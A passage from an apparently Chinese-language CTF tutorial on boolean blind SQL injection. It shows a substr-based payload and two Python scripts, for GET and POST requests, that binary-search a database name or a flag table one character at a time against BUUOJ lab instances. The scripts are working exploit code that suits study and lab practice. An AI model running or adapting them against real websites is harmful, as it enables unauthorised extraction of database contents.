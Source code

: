 6、取数据

```sql
' and substr((select 字段名 from 表名 limit 0,1),1,1)='a'--+
```

#### 脚本：

+ GET型

```python
import requests
import time
url = 'http://474d31bb-1f69-4636-9798-319f27a7fb08.node3.buuoj.cn/'

cookies = {       # 如果目标网站要事先登录，就加上cookies吧
    "PHPSESSID":"c8ab8r49nd2kk0qfhs0dcaktl3"
}

flag = ''
for i in range(1,90000):
   low = 32
   high = 128
   mid = (low+high)//2
   while(low<high):
       payload = "http://474d31bb-1f69-4636-9798-319f27a7fb08.node3.buuoj.cn/Less-8/?id=0' or ascii(substr(database(),%d,1))>%d-- " %(i,mid)    # 注意get型的注入注释符要用--空格
       res = requests.get(url=payload)

       if 'You are in' in res.text:      # 为真时，即判断正确的时候的条件
           low = mid+1
       else:
           high = mid
       mid = (low+high)//2
   if(mid ==32 or mid ==127):	
       break
   flag = flag+chr(mid)
   print(flag)
```

+ POST型

```python
import requests
url = 'http://81689af7-4cd5-432c-a88e-f5113e16c7c1.node3.buuoj.cn/index.php'
flag = ''
for i in range(1,250):
   low = 32
   high = 128
   mid = (low+high)//2
   while(low<high):
       #payload = 'http://d63d924a-88e3-4036-b463-9fc6a00f4fef.node3.buuoj.cn/search.php?id=1^(ascii(substr(database(),%d,1))=%d)#' %(i,mid)
       payload = "0^(ascii(substr((select(flag)from(flag)),%d,1))>%d)#" %(i,mid)
       datas = {
                     "id":payload
                }
       res = requests.post(url=url,data=datas)

       if 'girlfriend' in res.text:      # 为真时，即判断正确的时候的条件
           low = mid+1
       else:
           high = mid
       mid = (low+high)//2
   if(mid ==32 or mid ==127):
       break
   flag = flag+chr(mid)
```